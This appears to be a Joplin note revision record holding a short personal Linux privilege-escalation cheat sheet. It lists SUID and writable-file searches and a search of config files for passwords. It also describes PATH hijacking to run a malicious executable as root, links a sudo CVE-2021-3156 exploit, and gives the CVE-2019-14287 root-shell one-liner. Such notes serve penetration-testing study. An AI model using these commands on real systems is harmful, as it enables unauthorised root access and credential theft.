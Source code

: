 id: 5de1f6174fab498eb0d8f8ac7359f622
parent_id: 
item_type: 1
item_id: 94be54afcb564ee7b6549b0b1bcac941
item_updated_time: 1661091532168
title_diff: "[{\"diffs\":[[1,\"Linux Guide\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":11}]"
body_diff: "[{\"diffs\":[[1,\"## Check for User privileges\\\n\\\n> id\\\n> \\\n> \\\\# If have sudo privileges\\\n> \\\n> sudo -l\\\n> \\\n> \\\\# Then check for available scripts to see if there are any custom scripts\\\n> \\\n> /usr/local/bin\\\n> \\\n> /bin\\\n> \\\n> /usr/bin\\\n> \\\n> /usr/sbin\\\n> \\\n> \\\\# If any are executable, and are SUID Root\\\n> \\\n> find / -perm -u=s -type f 2>/dev/null\\\n> \\\n> \\\\# change the PATH to point to /tmp and put the malicious executable in there, so it is executed as root\\\n\\\n## Use LinEnum / LinPeas\\\n\\\nAll are located within the ~/privesc folder\\\n\\\n# Check if files are writeable\\\n\\\n> find . -writable\\\n\\\n# Check for passwords in configs / database files\\\n\\\n> strings &lt;file&gt;\\\n\\\n# Check for files between particular dates\\\n\\\n> find / -newermt 2019-09-10 ! -newermt 2019-09-13 2>/dev/null\\\n\\\n# Check for nfs\\\n\\\nLook into /etc/exports (cat the file)\\\n\\\nFind no\\\\_root\\\\_squash shares (Using LinPeas also can)\\\n\\\n# Sudo Version\\\n\\\nIf it is 1.8.X, probable of being vulnerable\\\n\\\n1.8.31 - https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py\\\n\\\n> Test for whether the sudo is vulnerable or not\\\n\\\n1.8.27 and below - https://www.whitesourcesoftware.com/resources/blog/new-vulnerability-in-sudo-cve-2019-14287/\\\n\\\n> sudo -u#-1 /bin/bash\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1162}]"
metadata_diff: {"new":{"id":"94be54afcb564ee7b6549b0b1bcac941","parent_id":"2deea0a2fd65431c90074dad6a2d5de8","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1652843736016.7188,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-08-21T14:20:48.655Z
created_time: 2022-08-21T14:20:48.655Z
type_: 13